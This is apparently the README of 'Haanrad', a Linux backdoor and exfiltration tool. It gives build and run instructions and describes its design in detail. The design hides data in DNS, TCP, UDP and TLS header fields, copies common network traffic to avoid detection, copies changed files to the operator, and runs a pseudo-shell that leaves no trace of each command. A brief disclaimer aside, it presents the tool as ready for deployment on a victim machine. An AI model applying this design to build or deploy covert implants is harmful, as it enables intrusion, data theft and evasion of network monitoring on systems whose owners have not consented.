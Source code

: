 #Haanrad

==========================================================
 FULL DISCLOSURE: THIS THING CAN DO BAD THINGS. UNLESS UR 
 A BADMAN OR BATMAN, ITS STRONGLY ADVISED NOT TO BE USED  
==========================================================

Haanrad is a backdoor exfiltration system that allows a user to covertly exploit the installed system
haanrad is deployed to. Haanrad can be configured in numerous different ways and is designed to be
tolerant in most systems and adjust to the networks behavior as perceived by the victim machine in order
to "blend in". See the `Features` Section for details on functionality

##Setup

###Prerequisits
You must have cmake and gcc installed along with `libdnet` and `libpcap` development libraries installed in order to compile
Haanrad and the client. Note that Haanrad and the client will only work on the Linux based kernel and possibly some
versions of Mac or BSD

###Installation
Execute the following commands
1. clone the project and `cd` into the project root
2. Execute the following command `cmake .`
3. Then execute `make` if you are on Linux. This will generate all required programs in the project root under the `/bin` folder

###Usage
Run Haanrad with the following command from within the `/bin` folder
```
./haanrad -c <ipofclient> [--DEBUG] [--DOF] [--HINT] [-t <timetick>] [-h <historylength>]
```
The parameters are as follows:
| Parameter | Purpose                                                                                | Required ? | Config File Support ? | Default                          | Example      |
| --------- | -------------------------------------------------------------------------------------- | ---------- | --------------------- | -------------------------------- | ------------ |
| -c        | Give the dot notation IP of the client                                                 | Yes        | Yes                   | N/A                              | -c 127.0.0.1 |
| -t        | Give time cycles of Haanrad in milliseconds, lower values will make Haanrad run faster | No         | Yes                   | 100                              | -t 450       |
| -h        | Set History Length of how many packet Haanrad will store                               | No         | No                    | 100                              | -h 200       |
| --DEBUG   | Get Debug Console Out                                                                  | No         | No                    | Disabled                         | ---DEBUG     |
| --DOF     | Set Haanrad to use default name on rename failure                                      | No         | No                    | Previous name is used on failure | --DOF        |
| --HINT    | Append `-bd` to the name chosen for Haanrad                                            | No         | No                    | Not Appended                     | --HINT       |
 


##Features
* Dynamic Password Generation
* Password Based TLS Authentication & Header Authentication
* Password Based Data Encryption
* Packet Specific Payload Hiding
* Dynamic Network Based Packet Generation
* File Event and File Syncrhonization
* Pesuodo-Shell Functionality
* Infinite Data Transfer

###Dynamic Password Generation
When Haanrad first initiates, it starts in `STARTUP` mode. In this mode, Haanrad only listens for DNS requests leaving
the system. Upon finding a DNS request packet, Haanrad parses out the first domain in the `QUESTION` section of the DNS
header, converts it to a dot notation domain ASCII string and then sends a copy of the packet back to the client whose
IP is set either as a parameter or in the configuration file upon startup. Haanrad only executes this procedure once, thus
the client must be previously ready before Haanrad begins execution on the target machine. After sending the packet,
Haanrad switches to `FULL FUNCTIONALITY` mode and proceeds to fully operate as a backdoor / exfiltration system.

###Password Based TLS Authentication & Header Authentication
Passwords are sent along with every TLS packet to authenticate with Haanrad and with the client system. For DNS, TCP
and UDP packets, specific flags in the TCP, UDP and IP headers are set to identify Haanrad packets. The flags are set
as follows:

| Protocol | Header        | Value                |
| -------- | ------------- | -------------------- |
| TLS      | None          |  Password in payload |
| DNS      | DNS Z Bit     | 1                    |
| TCP      | TCP RES 1 Bit | 1                    |
| UDP      | IP TOS        | 1                    |

###Password Based Data Encryption
Upon acquiring the password from the network. All data sent to and from Haanrad is expected to be encrypted with the password,
ontop of provide authentication as stated previously. In this implementation, Haanrad encrypts all data transferred with
a CaesarCipher and uses the password length as part of or entirely the offset value. The encryption methods are
as follows:

| Protocol | Encryption    | Offset Calculation                       |
| -------- | ------------- | ---------------------------------------- |
| TLS      | CaesarCipher  | Password Length                          |
| DNS      | CaesarCipher  | Password Length                          |
| TCP      | CaesarCipher  | Password Length                          |
| UDP      | CaesarCipher  | Password Length + Destination Port Value |

###Packet Specific Payload Hiding
All payloads are covertly transferred between the client and Haanrad. Depending on the type of packet used though,
specifies the location of where the payload is stored and how much data can be transferred in each packet. The client
always sends TLS packets when communicating with Haanrad so as to ensure the highest reliability in communication to
Haanrad. This is because the TLS packets can carry the largest payload of 35 bytes and are the only packet type
that transports its payload in the body of the packet. The breakdown of TLS and all the other protocols supported
are as follows:

| Protocol | Payload Location               | Payload Max Size |
| -------- | ------------------------------ | ---------------- |
| TLS      | Application Layer Payload      | 35 bytes         |
| DNS      | DNS Id Header                  | 2 bytes          |
| TCP      | TCP Sequence Number Byte 3 & 4 | 2 bytes          |
| UDP      | UDP Source Port Byte 2         | 2 bytes          |

###Dynamic Network Based Packet Generation
In order to best hide the data being sent from Haanrad to the client, Haanrad uses the packets in the network as a
template for the packets it sends. While running in `FULL FUNCTIONALITY` mode, Haanrad listens for incoming packets
from the client. If a packet received is not from the client, Haanrad keeps track of it for later use. Haanrad keeps a
total of the last 100 packets that it has received that failed to be from the client. Whenever Haanrad needs to send
a message back to the client, a number of steps are executed:
1) A tally of the most popular packet type within the 100 collected packets is calculated
2) Then a packet of the most popular type is randomly selected from the 100
3) Depending on its type, it is then altered with the appropriate payload amount, encryption and has its destination IP changed to the client's

At this point the packet is simply sent out of a raw socket, where it then is processed by the network stack and sent to
the client disguised as a network packet. This gives Haanrad a unique upperhand, as it is not limited to running on
specific protocols to transfer data. This means Haanrad will send UDP/DNS data when it sees alot of UDP and DNS data on
the network, and will send TCP/TLS data when it sees alot of TCP and TLS data on the network. Additionaly, the UDP and
TCP options, allow Haanrad to operate on unknown Application Layer protocols. Haanrad for example has been tested to use
packets from Google's QUIC protocol, and ICMP or NTS error packets from the network. Due to this ability, Haanrad is able
to heavily blend in and adapt to most network environments.

###File Event And File Synchronization
When operating the exfiltration functions, Haanrad supports two options: File Event Listening, and File Synchronization. File
Event Listening will simply listen in a directory for any changes. Whenever a change in the directory does occur, a message
will be sent back to the client that it has happend. During File Synchronization, whenever an event occurs on a file, Haanrad
will read the file and transfer its contents to the client. From here the client is designed to emulate the directory 
Haanrad is hosted on within a local `./sync` folder, maintained by the client. This allows the user to view the files
localy from this directory, but also in the same directory format, as it can be found on the exploited system.

###Pseudo-Shell Functionality
The pseudo-shell allows the client to interact with a shell on the system Haanrad is hosted on. From here, the user can view
system directories and settings from system tools. Haanrad at each command generates a new shell instance, so that no evidence
of a command running is visible, after each execution. In order to maintain semi-persistance such as working directory, Haanrad
uses a "pseudo-shell" implementation. Specificaly when entering `cd` commands, Haanrad will change the working directory variable
of itself to emulate that new directory. This allows all future shells to launch in that same directory, emulating the
action of a directory change

###Infinite Data Transfer
Obviously with data limitations in the packets, not all information will fit into a single packet. In order to maintain
some reliability, the client sends all of its commands in a TLS packet. This is strictly to reduce the number of packets
needed. For Haanrad this is not always an option, and most commonly will use TCP and UDP packets to send data back. In order
to do this, multiple packets need to be sent. Haanrad simply implements this by storing a buffer of the current message
being sent and takes of pieces of it as payload for each packet it sends. It continues this cycle until the whole packet
has been sent. Haanrad's sending system is optimized also to only send one message at a time, eventhough multiple requests
may have arrived. Responses are simply queued before placed in the buffer and processed for sending to the client

